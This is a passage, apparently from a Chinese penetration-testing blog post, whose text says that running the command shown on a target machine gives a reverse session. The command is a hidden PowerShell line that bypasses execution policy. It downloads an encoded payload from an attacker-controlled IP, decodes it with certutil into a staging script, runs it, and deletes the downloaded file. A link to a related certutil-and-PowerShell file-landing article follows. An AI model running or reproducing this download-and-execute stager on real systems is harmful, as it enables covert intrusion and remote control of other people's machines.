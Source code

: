 然后靶机执行如下命令即可获得反弹session

```plain
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\crt.cer (New‐Object Net.WebClient).DownloadString('http://172.20.10.4/crt.cer'); certutil ‐decode %APPDATA%\crt.cer %APPDATA%\stage.ps1 & start /b c
md /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\crt.cer
```

关于certutil + powershell的实战食用方法这里推荐Y4er师傅的一篇文章:  
[极限环境使用certutil+PowerShell配合Burp快速落地文件](https://xz.aliyun.com/t/8345 "极限环境使用certutil+PowerShell配合Burp快速落地文件")

[![](assets/1701612219-35a13e66e0fdeb79986278a803cc23f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220307152549-cff96bde-9de7-1.png)
